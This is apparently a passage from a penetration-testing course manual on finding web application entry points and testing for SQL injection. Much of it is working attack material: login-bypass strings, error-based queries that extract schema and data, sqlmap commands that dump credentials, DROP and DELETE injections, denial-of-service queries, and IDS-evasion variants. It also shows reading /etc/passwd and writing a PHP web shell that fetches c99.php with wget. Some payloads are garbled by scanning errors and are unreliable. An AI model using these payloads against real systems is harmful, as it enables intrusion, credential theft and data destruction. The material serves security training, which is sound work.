- HTTP headers process by the application including the User-Agent, Referer, Accept, Accept-Language, and Host headers.

**URL queries**
Attackers modify the parameters of an URL to use them as entry points to the web application. The penetration tester must check if the URL queries can act as entry points for user input. To check the use of URLs, we recommend you modify an URL and send it to the web server. If the web application responds with an error message, then the web application does not allow the use of URL as the entry point.

For example, the following is the URL of a web application that allows the users to make a
payment for the purchased items based on their profiles:
http://www.web101.com/default.php?profile=500&payment=950

The penetration tester can manipulate these values using an interception proxy as the following one:
http://www.web101.com/default.php?profile=401&payment=500
If the web server accepts this parameter modification to the URL, then it could be an entry point
into the web application.

**GET and POST Methods**
As a penetration tester, you should check if the attackers can use the POST and GET methods as entry points for user inputs. To find this, you must send a request for URL parameter values using the GET method and try to post new values using the POST method. If the server accepts the modified requests, then the web application allows the attackers to use GET and POST methods as entry points.

**Cookies**
The cookies contain the information about a session. Attackers can trace these cookies and use cookie manipulation techniques to gain unauthorized access to a web application. Check if the web application accepts modified cookies by sending a cookie with modified information about the session or user. If the web server accepts this and grants access to the web application, these cookies act as entry points to the web application.

**HTTP Headers**
The HTTP request and response headers contain fields that can provide entry points for the user inputs by providing details of session, web application, browser used to access, etc. The following are common HTTP headers that can act as vectors to the entry points.

- **Referrer**: It includes a link to the last page from which the browser has directed to the current in a web application, thus enabling the user to determine the session activity. Attackers can change the referrer details using a proxy in such a way that the browser provides them with the access to the web application. Therefore, you must test if this field allows users to modify it.

- **User-Agent**: This field contains details of the user-agent form which the user sent to the request header. It helps the web application to identify the type of browser, OS and details that help in customizing the response for the user’s OS and browser, and provides other information from the requesting device.

  As a penetration tester, you must check if modifying this field manually will result in changes in the response from the server as well. If the web application replies with a different user interface, then this field can act as the entry point.

- **Accept**: This field tells the web server about the type of content the user is viewing and   able to understand. You need to check the web server by sending a request that contains   modified Accept header field. An example of Accept header: 

  **Accept**: XWloavRqXnMzMjEyK2P2MjQ1NjY9KS4ipCI703Bhc3E9aHJ1PAM 1tZHLtONtpRTIpPe==

- **Accept-Language**: This header informs the web server the language of the browser based on the region of device. To test this header, you must send a long string of values of this header to find if it provides access to the web application user input. This can cause a buffer overflow attack on the server and crash it.

* **Host**: In a virtual hosting environment, this header contains the server’s domain name and port number of the web application resource or service requested. The web server checks these details to reply with the requested service or resource. You can test this header field by sending a fake domain name and port number to the web server.

**URL Encoding and Encryption Mechanism**
To determine the type of the URL encoding and encryption mechanism used in the web applications, the tester needs to do the following:

- **Check URL Encoding in Firefox**
  - Type the URL to the web application and click on the menu option () at the top right corner of the screen.
  - From the list of items, click Web Developer and then click Web Console.
  - Go to the Inspector tab and in the search bar, type "charset" and press enter to see the type of the encoding used by the web application.
- **Check URL Encoding in Chrome**
  - Open the web application URL in Chrome.
  - Open the Developer Tools by pressing Ctrl + Shift + | or press F12 key.
  - Inthe Elements tab, press Ctrl + F and type "charset" in the search bar to see the URL encoding used by the web application.
  - You can also open the source of the web application and check for the URL encoding.

- **Check Encryption in Firefox**
- Open the web application domain name in Firefox.
  
- Click on the lock () icon in the address bar before the domain name of the web application
  
- Click on the right angle bracket to see connection details and then click on More information to see the encryption used.

- **Check Encryption in Chrome**

  - Open the web application URL in Chrome.

  - Open the Developer Tools by pressing Ctrl + Shift + | or press F12 key.

  - Navigate to Security tab to see the encryption type.

You can also use tools, such as httprint or WebScarab for identifying entry points in a web application.


## Test for SOL Injection Vulnerabilities

SQL injection is the most dangerous of all the web application vulnerabilities. A web application tester must check if the target application is vulnerable to SQL injection attacks. This section will help you learn the process of testing web applications for SQL injection vulnerabilities. In this section, you will also learn about various entry points, exploitation, and methods of attacking the web applications.

### Identify the Injection Points
- List all entry points at which the application builds SQL statements at the backend with user-supplied input

Most common entry points for SQL injection are:

- Search web pages

- URL bar contents

- Web form input values
- Public APIs

- DCOM methods

- Network packets
- Profile-related web pages
- Authentication forms
- E-Commerce or financial account-related pages
- Inter-Process Communication pipe
- Application UI text fields
- Web service methods

Injection points are the class of attack vectors that allow attackers to provide untrusted input or program as a command or a query leading to injection attacks. Some of the dangerous injection attacks are SQL injection (SQLi) and cross-site scripting (XSS).

The SQL injection is one of the most dangerous web application exploitation technique that provides full access to the back end database. The attackers use specially crafted SQL queries that resemble the legitimate queries to bypass the authentication of a web application.

As a pen tester, you must scan for potentially dangerous entries in browsers, URLs, webpage input values, etc. that can act as injection points. List all entry points at which the application builds SQL statements at the back end with user supplied input. Common entry points for SQL injection are as follows:

- Search web pages

- URL bar contents

- Web form input values
- Public APIs

- DCOM methods

- Network packets
- Profile-related web pages
- Authentication forms
- E-Commerce or financial account-related pages
- Inter-Process Communication pipe
- Application UI text fields
- Web service methods

### Identify the SQL Injectable Entry Points in the HTTP Request

A HTTP request provides most common injection points for SQL query injection. You can send requests to the web server and identify all data entries accepted by the remote server's web application.

As testers, you must try to find out SQL injectable entry points in GET and POST requests as these can help attackers to extract sensitive data by manipulating the requests. SQL injection points in the HTTP requests are as follows:

- GET parameter

- POST parameter

- Cookies

- Host

- Referer

- User-Agent

Use proxy servers such as Burp Suite or browser modification extensions, such as Tamper Data, Web Developer and HttpWatch to view and modify HTTP request parameters (entry points).



#### HttpWatch

Source: https://www.httpwatch.com

HttpWatch is a HTTP Sniffer for Chrome, IE, and iOS that provides HTTP monitoring without the need for separately configured proxies or network sniffers. HttpWatch will display a log of requests and responses alongside the webpage itself. It even shows interactions between the browser and its cache. Each HTTP transaction can be examined to see the values of headers, cookies, query strings, and other HTTP related data.


### Entry Points in HTTP Requests
Penetration testers must find the entry points of a HTTP request so that they can test if these entry points have vulnerabilities that attackers can exploit to attack the web application. 

**GET Requests**
It refers to a method of HTTP requests that allows users to get data from a specified source. This method allows attackers to specify the target section of a web application they want to extract information about.
For example:

``` 
GET/search.aspx?text=lcdt20monitorsécat=lénum=20 HTTP/1.1
User-Agent: Mozilla/6.0 (X11; U; Linux x86_64; en-US;
rv:1.9.2.20) Gecko/12358649
(compatible; MSIE5.01; Windows NT)
Host: www.victim.com
Accept-Language: en-gb,en;q=0.5
Accept-Encoding: gzip, deflate
Proxy-Connection: Keep-Alive
```

In the above example code, the user sends a GET request for three characters of a web application page text, cat, and num. The remote web application will receive the request, process it, and return the acceptable values of the requested sections. 

**POST Requests**

POST is an HTTP method that enables users to send information to the server of a target web application. The URL sent determines the server's action. Web applications use this method on forms and other data exchange websites. 

For example:

```
POST /contact/index.asp HTTP/1.1
Host: www.victim.com
User-Agent: Mozilla/6.0 (X11; U; Linux x86_64; en-US;
xv:1.9.2.20) Gecko/12358649
Ubuntu/9.05 (hardy) Firefox/3.0.0.20
Accept: text/xml,application/xml,application/xhtml+xml ,
text/html ;q=0.8, text/plain; q=0.7, image/png, */*;q=0.4
Accept-Language: en-gb,en;q=0.4
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 400
Referer: http: //www.victim.com/contact/index.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
first=John&last=Doe&email=john@doe.com&phone=555123456étitle=Mr&c
ountry=USécomments=
It%20wouldt%20like%20to%20requestt%20information
```

Using the POST method, a user sends requests to the server to accept the data enclosed in the body of the request message.

### Example: Identify Injection Points using SQLMAP
- Launch SQLMAP in Parrot

- Type the following command to identify the injection points in the GET request:

  ```
  sqlmap --url [Target URL]
  ```

### SQLMAP

Source: http://sqlmap.org

sqimap is an open source security auditing tool for detecting and exploiting SQL injection vulnerabilities in web servers. The tool is available in the Parrot as a command line interface tool. The penetration testers can use this tool to check different injection points of a web application.

Syntax for finding the injection points of a target site:

```
sqlmap --url [Target URL]
```


The above image shows that the tool displays security devices installed on the web application and provides that the GET parameter ‘Id’ field of the HTTP request can act as an entry point for the attackers and penetration testers.


The image displays list of details of the GET parameter ‘Id’ field of the HTTP request that can be accepted as inputs during the test. It provides details, such as acceptable characters, type of servers used, and type of queries that the tester may use to create an injection.

### Perform Database Fingerprinting

- Determine the DB name, type, and version, and users, output mechanism, user privilege level, and OS interaction level
- Force the database to generate error messages, and check error messages for the above database information
- Use the techniques below to craft SQL queries that force database to throw informative error messages

Database fingerprinting is to determine the database name, type of database, version, users, output mechanism, user privilege level, and OS interaction level by various methods. It is possible to launch a specific attack to the database, if the type and the version of the database is known. Asa pen tester, you must fingerprint the database to test if any valuable information is available. Force the database to generate error messages, and check error messages for the information of the database.

With the error message obtained, the tester can extract the original query structure used in the application. This allows the tester to construct a malicious query to take control over the original query.

You can use the following techniques to force database to throw informative error messages:

**Grouping Error**
Database uses clauses and aggregate functions to group the specified web application data while storing it. As a pen tester, you must use script kiddies and codes other than column names to generate grouping errors. 

For example, since 1=1 cannot be a column name in a database, use it with a Having command to generate error message.

' group by columnnames having 1=1 --


**Type Mismatch**
Type mismatch is a runtime error that occurs when the data types do not match with the input. For example, the variable that requires the integer value will not accept a string value.

To fingerprint, use a function that exists on the target database. When you try to insert strings into numeric input fields, the database will display error messages that show error in converting the value.

' union select 1,1, 'text',1,1,1 -


**Blind Injection**

In Blind SQL injection, the attacker requests the database for true or false questions and determines the answer based on the response.

As pen tester, you must perform the time-based Blind SQL injection to generate error message. When you instruct the database to perform time dependent operation, the database will display an error, if it does not return a response immediately.


To identify the version, you must request the database to identify itself by injecting a complete UNION SELECT statement.

- You can identify the version of the SQL server's OS by using below statement:
  Enter **' union select @@version,1,1,1--** in Username field

- The database generates the following error message after executing the command:

  *Microsoft OLE DB Provider for ODBC Drivers error ‘'80040e07' [Microsoft][ODBC SQL Server Driver](SQL Server]Syntax error converting the nvarchar value ‘Microsoft SQL Server 2000 - 8.00.194 (Intel x86) Aug 6 2000 00:57:48 Copyright (c) 1988-2000 Microsoft Corporation Enterprise Edition on Windows NT 5.0 (Build 2195:*
  *Service Pack 2) ' to a column of data type int. /process_login.asp, line 35*

In the above process, the type mismatch technique helps to obtain the version. The above given error message reveals that the OS of the database is Microsoft SQL server 2000 version. As a pen tester, you must attempt all the techniques to test for any information leakage.

### Example: Identify Databases using SQLMAP
Penetrations testers must find all the databases associated with the target web application. You can use the following command to identify the database names associated with the target website:

```
sqlmap --url [Target URL] --dbs
```


In the above image, the given command displays databases associated with an URL. It also specifies the type of server and displays the security solutions deployed on the server.


The command displays five databases associated to the website and displays the database names.

### Detect SQL Injection Vulnerabilities by Manipulating a Parameter
The URL contains parameters and their values. The penetration tester must check if the website or web application accepts the parameter values modified manually, as it can allow the attackers to perform SQL injection attacks through the URL.

As a penetration tester, you must check the website for presence of this vulnerability by modifying the URL parameters and submitting them. If the web server returns results or page not found errors, there is possibility for an SQL injection attack.

As a penetration tester, you can manipulate the URLs of the target web application as shown:

- **Actual URL**
  http://example.com/showproducts.php?category=bikes

- **Modified URL**
  http://example.com/showproducts.php?category=attacker

Web applications use various databases, such as Oracle, MySQL, MS SQL, and PostgreSQL at the   back end for processing and storing data. For different types of databases, you should manipulate  the parameter values using different techniques.

**For Microsoft SQL Server**

- Actual URL
  http://example.com/showproducts.php?category=bikes
- Modified URL
  http://example.com/showproducts.php ?category=bi'+'kes

**For MySQL Server**

- Actual URL
  http://example.com/showproducts.php?category=bikes

- Modified URL
  http://example.com/showproducts.php?category=bi' 'kes

**PostgreSQL and Oracle Servers**

- Actual URL
  http://example.com/showproducts.php?category=bikes
- Modified URL
  http://example.com/showproducts.php?category=bi'| |'kes

### Determine the Database Schema using Error-Based SQL Injection
Determining the table name, column names, and data types used in the database of the target application using error-based SQL injection is as follows.

**Test 1**

1. Enter a single quote (‘) in the username field and any password in the Password field to check for application vulnerabilities to SQL injection.

2. If it does not generate an error message, the application is not vulnerable to SQL 

**Test 2**

1. Enter **‘having 1=1 --** in username field and any password in Password field

2. It outputs error message as:
   *Microsoft OLE DB Provider for ODBC Drivers error ‘80040e07’*
   *[Microsoft] [ODBC SQL Server Driver] [SQL Server] Column*
   *USER_TEST.id is invalid in the select list because it is not*
   *contained in an aggregate function and there is no GROUP BY*
   *clause*

3. The error message displays name of the table (USER_TEST) and the name of the first field (id).

**Test 3**

1. Enter **'group by USER_TEST.id having 1=1 -** in the Username field and any password in the Password field.
2. It outputs error message as:
   *Microsoft OLE DB Provider for ODBC Drivers error ‘80040e07’*
   *Microsoft] [ODBC SQL Server Driver] [SQL Server] Column*
   *‘USER_TEST.username' is invalid in the select list because it*
   *is not contained in either aggregate function or the GROUP BY*
   *clause.*
3. The error message displays name of the second field (username).

4. Likewise, conduct the same test until no error is shown to retrieve all column names of the table.

**Test 4**

1. Enter **' Union Select sum (username) from USER_TEST** and any password in Password field.

2. It outputs error message as:
*Microsoft OLE DB Provider for ODBC Drivers error ‘80040e07’*
*Microsoft] [ODBC SQL Server Driver] [SQL Server] The sum or*
*average aggregate operation cannot take a varchar datatype as*
*an argument*

3. The error message displays data type of second field (username).

4. Likewise, you can find data types of all the fields in the table.

The database-level error messages disclosed by an application help the users to build a vulnerability exploit request. There are even chances of automated exploits based on the different error messages generated by the database server.

- **Extract Database Name**
  As penetration testers, you can test the target database by sending a query that generates an error message containing the name of the database. To perform this task, type the following SQL query in the URL of the target web application:
  *http: //example.com/page.aspx?id=1 or 1=convert (int, (DB_NAME) ) --*
  Syntax error converting the nvarchar value ‘[DB NAME)’ to a column of data type int.
- **Extract First Database Table**
  As penetration tester, you can test the target database by sending a query that generates an error message containing the first database table used by the target. Type the following SQL query in the URL of the target web application:
  *http: //example.com/page.aspx?id=1 or l=convert(int, (select top 1*
  *name from sysobjects where xtype=char (85)))--*
  Syntax error converting the nvarchar value ‘[TABLE NAME 1)’ to a column of data type int.

- **Extract First Table Column Name**
  You must test the target database by sending a query to generate an error message containing the first table column name. To perform this task, type the following SQL query in the URL of the target web application:
  *http://example.com/page.aspx?id=1 or l=convert(int, (select top*
  *1 column_name from DBNAME.information_schema.columns where*
  *table_name='TABLE-NAME-1') ) --*
  Syntax error converting the nvarchar value ‘[COLUMN NAME 1]' toa column of data type int.

- **Extract First Field of First Row (Data)**
  You must extract the first row of the target database by sending a query to generate an error message containing the first field of first row data. To perform this task, type the following SQL query in the URL of the target web application:
  *http: //example.com/page.aspx?id=1 or 1=convert(int, (select top*
  *1 COLUMN-NAME-1 from TABLE-NAME-1) )--*
  Syntax error converting the nvarchar value '[FIELD 1 VALUE]' to a column of data type int.

### Determine Privileges, DB Structure and Column Names
Penetration testers must find if the database of a target web application reveals sensitive information such as user privileges, database structure, and names of the administrators and allows the external users to enumerate database columns.

- **Identify User-Level Privileges Revealed**
  Several SQL built-in scalar functions help the attackers to extract user-level privilege information such as user, current user, session user, and system user. Penetration testers can use these SQL commands to find if the target web application discloses the user privileges of the database.
  You can use the following commands:
  user or current_user, session_user, system_user
  ' and 1 in (select user) --
  ';  if user ='dbo' waitfor delay '0:0:5 '--
  ‘ union select if(user() like 'root@%',
  benchmark (50000,shal('test')), 'false' );

  The above commands help to find the administrative accounts of a database that are very crucial as they can perform complex tasks in the database. There are many default database administrator accounts, such as sa, system, sys, dba, admin, root, and many others. The DBO is a user that has implied permissions to perform all activities in the database. Any object created by any member of the sysadmin fixed server role belongs to DBO automatically.

  Finding user privileges helps attackers to target administrator accounts for escalated privileges using attacks, such as Brute force, to compromise the web application and its resources.

- **Discover the Database Structure**

  - **Determine table and column names**
    The database uses GROUP BY statement to organize the data based on clauses and   aggregate functions to, such as COUNT, SUM, AVG, etc., into columns. The HAVING   clause replaces the WHERE clause for aggregate functions for extracting the records   from the database using filters.

    You can use the following query to determine the table and column names by checking the records with a condition using the “having” clause to obtain the column names that are using the group by.
    ' group by columnnames having 1=1 --

  - **Discover column name types**
    The following SQL query will help to retrieve the column name types:
     *‘ union select sum(columnname ) from tablename --*
    
  - **Enumerate user defined tables**
    The following SQL query will help in enumerating the user defined tables:
     ' and 1 in (select min(name) from sysobjects where xtype = 'U'
     and name > ''.') --

- **Column Enumeration in the Database**
  The tester can directly query the metadata to enumerate the columns of a table for all types of databases. But the syntax of the query varies for different databases, as shown below.

  - **MS SQL**

    *SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects*
    *WHERE name = 'tablename ') sp_columns tablename*
    
  - **Mysql**
  
    *show columns from tablename*
  
  - **Oracle**
  
    SELECT * FROM all_tab_columns*
    *WHERE table_name='tablename '*
  
  - **DB2**
  
    *SELECT * FROM syscat.columns*
    *WHERE tabname= 'tablename '*
  
  - **Postgres**
  
    *SELECT attnum,attname from pg_class, pg_attribute*
    *WHERE relname= 'tablename '*
    *AND pg_class.oid=attrelid AND attnum > 0*

### Example: Identifying Tables using SQLMAP

You can use the open source security auditing tool sqlmap with the following command to identify the tables of a database:

```
sqlmap --url [Target URL] -D [database name] --tables
```

Where --url is the target URL, -D is the name of the database, and --tables is used for enumerating the database tables of the target URL.

The demonstration of this process is:


In the above image, the given command displays database tables associated with an app. It also specifies the type of server and displays the security solutions deployed on the server.


### Example: Identifying Columns using SOLMAP
Use the sqlmap tools with the following query to extract the database columns:

```
sqlmap --url [Target URL] -D [database name] -T [Table Name] --columns
```


In the above image, the given command displays database tables associated with an app. It also specifies the type of server and displays the security solutions deployed on the server. The tool displays that the table named CustomerLogin contains 13 columns and displays their names.

### Example: Extract Data from Database Tables using SQLMAP

Use the following command to extract data and identify columns from the database tables using
the sqlmap tool.

```
sqlmap --url [ Target URL ] -T [Table Name] -C [Column name] --dump [user defined name]
```


The query displays the data present in the database table.

### Example: Extract Authentication Credentials Using SQLMAP

You can extract authentication credentials using the following command line tool in Parrot terminal.

```
sqlmap --url [Target URL] -D [Database name] -T [Table Name] -C [Column name] --dump
```


You can obtain a list of usernames and passwords using the tool.

### Insert, Update, and Delete Data from Database
As penetration testers, you must find if the web application allows external users to insert, update, and delete data from database. Now, you know the database structure, table name, and data type obtained during database fingerprinting. You should then craft an SQL injection query to manipulate data in the application’s database.

**Insert**:

Use the following syntax to try and insert data to a database table.

*Username=';insert into [Table Name]*
*values ('valuel','value2',.....,...,)--*
*Password: any password*

**Query formation at backend:**

SELECT * FROM [Table Name] where username=‘ ';insert into [Table Name] values('valuel','value2',.....,...,)--' and password='any password'

**Update**:

Use the following syntax to update the data present in a database table.

*Userid: Peter'; UPDATE [Table Name] SET [Column Name]=[value] WHERE userid='peter*

**Query formation at backend:**

SELECT * FROM salaries WHERE userid = 'peter'; UPDATE [Table Name] SET [Column Name]=[value] WHERE userid=‘peter' ;


**Delete:**

Use the following syntax to delete the data from a database table.

*Userid: ';DELETE FROM [Table Name] WHERE [Column Name]= 'peter*

**Query formation at backend:**

SELECT * FROM salaries WHERE userid = 'peter'; DELETE FROM [Table Name] WHERE userid=‘peter’ ;

### Attempt a DoS Attack using SQL Injection
- Try to make the target web application's database unavailable to normal users
- Create and send very complex queries to make the database server take more time than required. This will exhaust the database server and render it unavailable to normal users
- Craft SAL queries using Joins, Uke , compress, encode to create complex queries
- Usually, a databases supports **wildcards** characters, such as “**%"," [J""I*I" and "_"** in Search field functionality of the web application

The DoS attack using the SQLi would force the target database to take more time to execute complex SQL queries. Penetration testers must test the vulnerability of databases against the DOS attack performed using a SQL injection attack. They can do this by making the target web application’s database unavailable to normal users.

To perform this test, you must create and send very complex queries to the database server to make it take more time than required. This will exhaust the database server and render it unavailable to normal users.

Usually, a databases supports wildcards characters, such as “%”,” []”,"[4],” and “_” in Search field functionality of the web application. Craft SQL queries using Joins, Like, compress, encode to create complex queries. Use wildcards characters in the queries to expand their size to increase the time taken for processing.

Enter following inputs in the search field or in the URL of the application to increase query
execution time.

- **Input 1**:

  ```
  _[^|?$%"*[(Z*m1_=]-%RT$) | [{34}\?_]||%TY-3(*.>?_!]_
  ```

  

- **Input 2**:

  ```
  _[^*!_%/%a?F%_D)_(F%)_%([) ({}%) { () }ESEN%_) $*£() $*R"_) ] [%] (%[x]) %a] [
  $*"£$-9]_
  ```

  

- **Input 3**:

  http: //client.com/link.php?id=1' union select 1,2, (select tab1from (select decode (encode (convert (compress (post) using latin1) ,des_encrypt (concat (post post ,post ,post) ,8)) ,des_encrypt (s
  hal (concat (post post ,post,post)) ,9)) as tabl from table_1)a) ,4--

**Increasing the execution time of query**

Each character after the open bracket increases the execution time of the query. Add more open brackets to increase the time required for execution. Following table contains some characters along with the time they require for execution. Use these characters in the queries to increase execution time.

| Characters After Open Bracket                                | Time Required for <br />Execution (ms) |
| ------------------------------------------------------------ | -------------------------------------- |
| LIKE '%_[a[! -2]@$!_%                                        | 1050                                   |
| LIKE '%_[aaaaaaaaa]! -z]@$!_%'                               | 1600                                   |
| LIKE '%_[aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[! -2]@$!_%' | 3700                                   |

You can also use the DROP command to drop the database table to render the database unavailable to users.

**DROP**:

*Userid: Peter'; DROP [Table Name]; --*
*Query formation at backend:*
*SELECT *FROM [Table Name] WHERE userid= ‘peter'; DROP TABLE members; -*
*-';*

## Evade IDS Detection using 'OR 1=1 Equivalents
Attackers use various techniques to bypass the IDS detection during attacks. Penetration testers need to check all evasion techniques possible on the database IDS, as these devices help in detecting attacks. As a penetration tester, you must know and understand different database IDS evasion techniques and the process of checking their possibility in a web application. 

Intrusion detection systems (IDS) detect SQL injection attacks by searching for preconfigured queries, such as ‘OR 1=1, but attackers replace the values, such as characters and strings, in the SQL injection queries to avert these types of detection. 

You must check if the IDS is able to detect the SQL injection signatures even after you change the
values and strings. For example, instead of ‘OR 1=1 query, use:

* ‘OR ‘john’ = ‘john’

* ' OR 'microsoft' = 'micro'+'soft'

- ' OR 'movies' = N'movies'

- ' OR 'software' like 'softt'

- ' OR 7 >1

* ' OR 'best' > 'b'

- ' OR 'whatever' IN ('whatever')

* ' OR 5 BETWEEN 1 AND 7
* `OR 1 > 0
* `OR 'data' = 'd'

* `OR 10 between 9 and 19, and many more

You also use the hex equivalent of SQL injection statements to avoid IDS detection in the web application database. The hex equivalent of SQL injection is:
* SQL> SELECT @@version = 0x73656c65637420404076657273696£6
* SQL> DROP Table CreditCard =
0x44524£50205461626c652043726564697443617264
* SQL> INSERT into USERS ('example', ‘qwerty') =
0x494e5345525420696e746£2055534552532028274a75676779426£79272c202
77177657274792729

### Evade IDS Detection using Char Encoding
With the char() function, an attacker can encode a common injection variable present in the input string in an attempt to avoid detection in the signatures of network security measures. This char() function converts hexadecimal and decimal values into characters that can easily pass through SQL engine parsing.

You can check the IDS by using the char() function to inject SQL injection statements into MySQL 
without using double quotes.

* You can load files in unions (string = "/etc/passwd") by using Char encoding as:

  ```
  ' union select 1,
  (load_file (char (47,101,116,99,47,112,97,115,115,119,100))),1,1,1;
  ```

* You can inject string ("root“) without quotes as:

  ```
  ' union select * from users where login = char(114,111,111,116
  ```

### Evade IDS Detection by Manipulating White Spaces
- Try to drop or add white spaces between SQL keyword and string or number literals without altering execution of SQL statements
- Using special characters like tab, carriage return, or linefeeds makes an SQL statement completely untraceable without changing the execution of the statement. "UNION SELECT” signature is different from “UNION SELECT”

White space manipulation techniques obfuscate input strings by dropping or adding White Spaces between SQL keyword and string or number literals without altering execution of SQL statements. Many modern signature-based SQL injection detection engines are capable of detecting attacks related to variations in the number and encoding of White Spaces around malicious SQL code. These detection engines fail in detecting the same types of text without spaces.

As penetration testers, you must perform this technique on the web application databases to check the functionality of the IDS.

Add White Spaces using special characters like tab, carriage return, or linefeeds renders an SQL statement completely untraceable without changing the execution of the statement.

For example:

```
"UNION SELECT" signature is different from "UNION SELECT"
```

Drop spaces from SQL statements because it will not affect the execution of a statement by some
of the SQL databases. For example:

```
'OR'1'='1' (with no spaces)
```

### Evade IDS Detection using Inline Comments

- Try to bypass IDS by replacing white space between SQL keywords with inline comments /*..*/
  /* .. */ is used in SQL to delimit multi-row comments

  Example: 

  ```
  UNION/**/SELECT/**/'/**/OR/**/1/**/=/**/1
  ```

  

An evasion technique is successful when a signature filters White Spaces in the input strings. In this technique, an attacker uses another technique to obfuscate the input string using inline comments. Inline comments create SQL statements that are syntactically incorrect but are valid, and that bypass various input filters. Inline comments allow an attacker to write SQL statements without White Spaces.

MySQL database supports C language style of comments in its queries as shown below:

```
/*! MySQL-specific code */
```

The MySQL Server runs the code placed within the comment section as it would run any other SQL query.

You may try to bypass the IDS by placing the SQL keywords with inline comments /* ... */. The
inline comments also help to delimit multi-row comments.

Example:

```
UNION/**/SELECT/**/'/**/OR/**/1/**/=/**/1
```

### Evade IDS Detection using Obfuscated Code
- Try to obfuscate the SQL query to conceal its actual purpose and bypass signature detection of the IDS

There are two ways attackers obfuscate a malicious SQL query to avoid detection by the IDS.
Most attackers obfuscate a malicious SQL query by using either of the following two techniques.

1. **Wrapping**
An attacker uses a wrap utility to obfuscate a malicious SQL query and then sends it to the database. An IDS signature will not detect such an obfuscated query and will allow it to pass through, as it does not match the IDS signature.
2. **SQL-string obfuscation**

   In the SQL-string obfuscation method, the attacker uses a concatenation of SQL strings, encrypting or hashing the strings to obfuscate the queries, and then decrypts these at runtime. IDS cannot detect strings obfuscated with such techniques. Thus allowing an attacker to bypass the signatures.

You can also use the mentioned techniques to obfuscate the SQL query to conceal its actual purpose and bypass signature detection of the IDS.

An example of bypassing signatures (obfuscated code for request) is as follows.

The following request corresponds to the application signature:

```
/?id=1+union+(select+1,2+from+test.users)
```

The signatures can be bypassed by modifying the above request:

```
/?id=(1)unIon(selEct(1),mid(hash,1,32)from(test.users))
```

```
/?id=1+union+(sELect'1',concat(login,hash)from+test.users)
```

```
/?id=(1)union(((((((select(1),hex(hash)from(test.users))))))))
```

### Bypass Website Authentication using SQL Injection

Attackers use different SQL injection techniques to bypass website authentication of a web application. As penetration testers, you need to find the vulnerabilities in the website that allow authentication bypass. You can try different SQL techniques used against the authentication mechanism to bypass it.

Try these at website sign in forms:

- admin' --

- admin' #

- admin'/

- ' or 1=1--

- ' or 1=1#

- ' or 1=1/*

- ') or '1'='1--

- ') or ('1'='1--

Try to sign in as a different user using the following SQL injection techniques:

- ' UNION SELECT 1
- ‘anotheruser'
-  ‘doesnt matter', 1--

Try to bypass MDS hash check:

- You may bypass UNION results with a known password and the MDS hash of the supplied password.
- The web application will compare your password and the supplied MDS hash instead of the MDS from the database.

Example:

Username: admin

Password: 1234 ' AND 1=0 UNION ALL SELECT 'admin',
'81dc9bdb52d04dc20036dbd8313ed055
81dc9bdb52d04dc20036dbd8313ed055 = MD5(1234)


### Perform a Function-Call Injection Attack
**Function-Call Injection Attack**
In this attack, the attackers insert database functions with the malicious SQL queries to manipulate the data and OS calls in a database. This attack helps attackers to extract database information, compromise database, modify the database passwords, and perform illegal transactions.

As penetration testers, you must execute the function call injection attacks using custom or database functions to test the database vulnerabilities. You can use the following functions to make calls to the operating system:

For example, the Java method that can help in executing the OS command is:

```
Runtime.getRuntime() .exec()
```


You can try to exploit the following SQL query:

```
SELECT TRANSLATE ('user
input' , '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ',0123456789') FROM dual;
```


Try to exploit the above query as shown in the following scenarios:

- Scenario 1: Try to retrieve information from the database server:

  ```
  SELECT TRANSLATE('' || UTL_HTTP.REQUEST
  (‘http://192.168.1.1/') || '',
  ‘0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ', '0123456789') FROM dual;
  ```

- Scenario 2: Try to create new users:

  ```
  SELECT TRANSLATE ('' || myappadmin.adduser
  ('admin', 'newpass') || '',
  "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ', '0123456789') FROM dual;
  ```

  

### Perform a Buffer Overflow Attack
The attackers perform buffer overflow attacks on the web application database using SQL injection. You must check the following standard database functions that are prone to buffer overflow attacks:

- TZ_OFFSET

* TO_TIMESTAMP_1Z

- BFILENAME

- FROM_TZ

- NUMTOYMINTERVAL

- NUMTODSINTERVAL

  

You can make use of these functions to carry out a buffer overflow attack using the function injection method. You must try to disconnect database connections and perform a DOS attack through this vulnerability. You must try to achieve remote access to the operating system through buffer overflow.

The functionality of FROM_TZ is to convert a TIMESTAMP value to a TIMESTAMP WITH TIME ZONE value. The standard form of providing input to this function is as follows.

```
SELECT FROM_TZ (TIMESTAMP '2018-01-20 18:00:00', '14:00') FROM DUAL;
```

Use the following statement as an example to perform buffer overflow attack:

```
SELECT FROM_TZ (TIMESTAMP ‘2018-01-20 18:00:00',
'xoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxo') FROM DUAL;
```

### Access System Files and Execute Remote Commands

- Use the **LOAD_FILE()** function within MySQL to read and return the contents of a file located on the MySAL server
- Use the **INTO OUTFILE()** function in MySQL. to run a query, and dump the results into a file

The attackers try to access the system files and execute remote commands on the target web application database using MYSQL queries, such as LOAD_FILE () and INTO OUTFILE (). The LOAD_FILE () function reads and returns the contents of a file from the MySQL server. The INTO OUTFILE () function runs a query and dumps the results into the specified file.
You must check if the MYSQL server of target web application is vulnerable to these functions.

- Test for LOAD_FILE():
  You must test the LOAD_FILE() function on the database using the following ways:
  Add the following query after the URL of target web application to see if it can return the file information.

  ```
  NULL UNION ALL SELECT LOAD_FILE('/etc/passwd') /*
  ```

  If successful, the injection will display the contents of the passwd file, which contains passwords to the server.

- Test for INTO OUTFILE():
    You need to try the INTO OUTFILE() function on the database by adding the following query to the web application URL as shown:

  ```
  NULL UNION ALL SELECT NULL,NULL,NULL,NULL, '<?php
  system($_GET["command"]); ?>' INTO OUTFILE
  '/var/www/example.com/shell.php'/*
  ```

    If successful, it will then be possible to run system commands via the $_GET global.
    The following is an example of using wget to get a file:
    http://www.example.com/shell.php?command=wget
    http://www.example.com/c99.php.

### Use OPENROWSET to Escalate Privileges on the Microsoft SQL Server
- If you successfully brute-force the SA account password, then you can easy escalate your privileges with OPENROWSET
- Send an SQL injection query with the brute-forced SA password, and add your user to the sysadmin group using the sp_addsrvrolemember, as follows:

